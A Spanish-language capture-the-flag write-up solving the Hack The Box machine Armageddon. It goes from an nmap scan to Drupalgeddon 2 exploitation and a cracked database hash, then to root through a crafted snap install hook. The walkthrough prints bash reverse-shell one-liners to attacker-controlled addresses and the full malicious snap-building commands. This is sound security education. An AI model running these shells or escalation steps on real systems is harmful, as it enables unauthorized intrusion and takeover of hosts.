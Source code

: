 ```yaml
---
title: "Armageddon - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/armageddon/data/armageddon.png?raw=true"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Drupalgeddon
  - John
  - Snap  
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/data/armageddonHTB.png">
</p>

La máquina **Armageddon** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **fácil** una puntuación de 3.7, **9388 USER OWNS** y **7996 SYSTEM OWNS** con la ip **10.10.10.233** y un sistema operativo **Linux**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.233]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/ScanPort.png">
  </p>

  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,80**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/Ports.png">
  </p>

  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/PortServ.png">
  </p>

  Lo que podemos ver de esté escaneo de versiones y servicios es que esta maquina cuenta en el puerto **22** un servicio **ssh** y en el puerto **80** cuenta con un servicio web **http** el cual es gestionado por **apache**, también podemos ver que nmap nos muestra varias rutas que son potencialmente interesantes para examinar pero primero vamos a ver la web entrando por una via normal.

  Al entrar por via web podemos ver que la pagina nos muestra un login, si hacemos pruebas como ingresar credenciales típicas no tenemos ningún resultado al igual si agregamos una comilla para ver si podemos encontrar algún error de syntax de sql.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/web.png">
  </p>

  Nmap nos indico que existe un recurso **Robots.txt** disponibles, si entramos a este recurso podemos ver una gran cantidad de rutas a las cuales podemos acceder, habiendo una muy interesante como **/CHANGELOG.txt** en la cual si entramos podemos ver que el servicio web tiene un gestor de contenido **Drupal 7** específicamente una version **7.56**, esta version es vulnerable a **Drupalgeddon 2.0.** ([más información](https://blog.sarenet.es/drupalgeddon/)).

  Hay una gran cantidad de exploits para explotar esta vulnerabilidad yo usare el exploit desarrollado por [pimps](https://github.com/pimps/CVE-2018-7600) pero puedes encontrar muchos mas buscando con el CVE: **CVE-2018-7600**.

## Gaining Access

  Ingresando los parámetros que marca la herramienta puedo ver que efectivamente el aplicativo es vulnerable a **Drupalgeddon 2.0.**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/drup.png">
  </p>

  Con esto entendido me entablare una revershell para poder acceder a la maquina ingresando el siguiente one line y poniéndome en escucha con **netcat**:

  ```bash
  bash -i >& /dev/tcp/[Your IP]/[Port] 0>&1
  ```
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/shell.png">
  </p>

## Privilege escalation - brucetherealadmin

  Ya dentro de la maquina y haciendo enumeración podemos llegar a un archivo en la ruta **/var/www/html/sites/default/settings.php** el cual tiene unas credenciales de la base de datos de mysql.

  Ya que no estamos en una **tty** podemos usar la herramienta de **mysql** con el parámetro **-e** el cual es para hacer consultas sin entrar en modo interactivo en mysql.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/cred.png">
  </p>

  Enumerando la base de datos drupal podemos ver que hay una tabla llamada **"users"** la cual contiene un hash del usuario **brucetherealadmin** el cual es un usuario a nivel de sistema.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/cred2.png">
  </p>

  Con este hash y usando la herramienta de john se puede aplicar fuerza bruta para descubrir el hash, haciendo esto podemos ver que el hash pertenece a la contraseña booboo:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/hash.png">
  </p>


  Teniendo esto y recordando que el puerto **22** esta abierto podemos intentar usar estas credenciales para acceder por ssh.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/ssh.png">
  </p>


## Privilege escalation - Root

  Ya que estamos dentro de la maquina por ssh y tenemos unas credenciales validas podemos enumerar el sistema con mas facilidad para ver hacer una escalada de privilegios hacia el usuario **root**.


  Enumerando el sistema y aplicando el comando **sudo -l** para listar los permisos a nivel sudo que tiene el usuario **brucetherealadmin** podemos ver que cuenta con la capacidad de ejecutar snap como root sin proporcionar contraseña.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/sudo.png">
  </p>

  Con este permiso si buscamos en la herramienta [**gtfobins**](https://gtfobins.github.io/gtfobins/snap/#sudo) este recurso podemos ver que hay una forma de escalar privilegios

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/gto.png">
  </p>


  Para probar esto en mi equipo me creo un el binario con las instrucciones que da **gtobins** el cual ejecutara un "whoami" y si la respuesta es **root** significa que funciona y tenemos una via segura para escalar privilegios.

  Para esto me cree el binario y levante un servicio **http** con python para poder pasar el binario a la maquina victima.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/1.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/2.png">
  </p>

  Como vemos comprobando com **md5sum** los archivos tienen el mismo hash lo que significa que se transfirió con éxito y sin ninguna alteración.

  Al ejecutar el binario con el install podemos ver que efectivamente tenemos ejecución de comando por parte de **root**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/3.png">
  </p>

  Excelente ahora que tenemos ejecución de comando como **root** vamos a subir un nuevo binario para hacer una jugada nueva, muchos usan el recurso de **"[dirty_sock](https://www.exploit-db.com/exploits/46361)"** el cual consiste en subir el binario **.snap** y te crea un usuario a nivel de sistema que pertenece al grupo **root**.

  Yo hare diferente la escalada, en el directorio personal de **brucetherealadmin** me creare una carpeta nueva **/home/brucetherealadmin/bin** en este directorio creare un binario llamado **winsad** ( ```touch winsad``` ) el cual tendrá el siguiente contenido:

  ```bash
  #!/bin/bash

  bash -i >& /dev/tcp/10.10.15.125/444 0>&1
  ```

  Le asigno permisos de ejecución con ```chmod +x winsad```, ahora con los pasos que se ven en **gtobins** compilare el binario con los siguientes argumentos en mi equipo:

  ```bash
COMMAND=/home/brucetherealadmin/bin/winsad
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
  ```

  Lo que estoy haciendo aquí es crear un binario **.snap** el cual apunte a mi binario y como es un contenido en bash lo va a interpretar, esto lo hago así ya que haciendo pruebas es la manera mas eficiente para evitar errores a la hora de crear el binario, así solo apunto a uno ya existente y que interprete el contenido del mismo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/pre|root.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/root.png">
  </p>

  Como vemos nos interpreta el contenido del binario winsad y nos da la shell como el usuario **root**
